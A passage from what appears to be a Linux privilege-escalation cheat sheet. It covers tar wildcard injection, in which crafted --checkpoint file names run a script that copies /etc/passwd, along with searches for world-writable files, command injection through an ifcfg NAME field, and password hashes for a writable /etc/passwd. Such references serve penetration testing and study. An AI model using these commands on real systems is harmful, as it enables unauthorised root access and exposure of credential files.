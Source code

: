 By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```powershell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```
src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f]
(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```
